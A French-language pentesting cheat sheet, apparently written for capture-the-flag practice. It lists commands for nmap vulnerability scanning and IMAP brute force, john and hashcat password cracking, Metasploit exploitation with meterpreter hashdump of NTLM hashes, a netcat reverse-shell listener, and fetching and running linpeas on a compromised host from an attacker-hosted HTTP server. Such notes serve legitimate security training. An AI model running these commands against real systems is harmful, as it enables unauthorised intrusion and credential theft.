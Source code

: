 ## Wordlists

Sur Kali : 
`/usr/share/wordlists/`  
`/usr/share/wordlists/dirbuster/`


## nmap

trouver les vulnérabilités  
`nmap -sC -sV -O 10.10.0.0-255 –script=vuln`


Brute force srv mail  
`nmap -p 143 --script=imap-brute --script-args userbdb=userfilename, passdb=dict.txt ip`k

wordpress
```
find / -name *wordpress*.nse
nmap -p 80 ip --script=http-wordpress-users
```

## john

``john --wordlist=wordlist_file.txt file_to_crack``

```
#file_to_crack

user:hash
user2:hash2

```

## hashcat

```
hascat -h | grep MD5

hashcat -m 0 file dict1 dict2 dict3
```

## Metasploit

```
msfconsole
search {vuln_name} # ex ms17-010

use {n}
set lhost {ip}
set rhost {ip_cible}
options # check of others parameters

run
```

une fois sur l'host meterpreter est lancé, on peut lancer un shell depuis celui ci.

``meterpreter> hashdump`` # récupère les hash de la machine

Sur une machine windows
Nom_Utilisateur:RID:Hash_LM:Hash_NTLM

lors d'un hashdump, on se concentre sur la dernière partie (le hash NTLM) car le hash LM qui le précède est une antiquité inutile et non sécurisée, souvent même pas présente sur les systèmes récents. C'est le hash NTLM qui représente la clé d'accès au compte.


``meterpreter> search -f flag*``

# gobuster

`gobuster dir -w path/to/wordlist -u url`

# burp

`burpsuite`

# netcat

Ecouter un reverse shell  
`nc -nlvp 1234` 

# linpeas

``wget -O url/linpeas.sh``  
Pour l'envoyer sur la machine cible  
`python3 -m http.server 8081`

sur le reverse shell
```
wget -O linpeas.sh http://ip_machine:8081/linpeas.sh

chmod +x linpeas.sh
./linpeas.sh
```
